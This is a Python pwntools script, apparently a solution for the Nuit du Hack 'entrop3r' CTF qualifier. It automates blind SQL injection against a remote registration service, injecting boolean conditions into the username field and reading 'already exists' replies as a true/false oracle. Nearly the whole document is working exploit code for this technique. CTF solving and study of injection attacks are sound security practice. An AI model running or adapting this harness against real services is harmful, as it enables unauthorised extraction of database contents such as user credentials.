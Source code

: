 ```python
def new_con():
    with context.local(log_level='warning'):
        rem = remote("entrop3r.quals.nuitduhack.com", 31337)
        rem.recvuntil("~")
        rem.sendline("debug")
        rem.recvuntil("~")
    return rem


class InjectionFailedException(Exception):
    pass


def inject(q, sendpw=True):
    global rem
    if not rem:
        rem = new_con()
    try:
        rem.sendline("register")
        rem.recvuntil("Username #")
        rem.sendline(q)
        line = rem.recvline().strip()
        log.debug("received line\n{!r}".format(line))

        if exc_msg in line:
            raise InjectionFailedException(line)

        wat = rem.recv()
        if "Password" in wat:
            if sendpw:
                rem.sendline("")
            else:
                with context.local(log_level='warning'):
                    rem.close()
                    rem = new_con()
                return line

        log.debug("wat is\n" + hexdump(wat))
        if "~" not in wat:
            wat += rem.recvuntil("~")
        log.debug("received the rest:\n" + wat)

        return line
    except EOFError:
        log.warning("got EOF - restarting connection")
        with context.local(log_level='warning'):
            rem.close()
        rem = None
        return inject(q, sendpw)


def bool_query(q):
    aq = "admin' and {} and '1' is '1".format(q)
    try:
        line = inject(aq, False)
    except InjectionFailedException as e:
        log.warning("query failed: {}".format(e))
        return None
    if "already exists" in line:
        return True
    else:
        return False
```